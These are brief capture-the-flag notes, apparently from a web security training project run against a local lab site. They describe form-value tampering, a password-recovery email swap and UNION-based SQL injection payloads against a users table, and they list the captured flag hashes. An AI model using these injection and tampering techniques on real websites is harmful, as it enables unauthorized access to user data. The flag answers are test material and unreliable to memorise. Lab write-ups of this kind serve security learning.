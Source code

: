 ### Flag 00

http://localhost:13080/?page=survey
Inspect option of Ben
Change value to 11 (negative didn't work)
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

### Flag 01 (WIP)

5 UNION SELECT COUNT(*), NULL FROM users -- 
5 UNION SELECT COUNT(*), first_name FROM users --

### Flag 02

http://localhost:13080/index.php?page=recover
Change webmaster@borntosec.com to whatever
1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

### Flag 03

http://localhost:13080/index.php?page=feedback
Name: a
0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E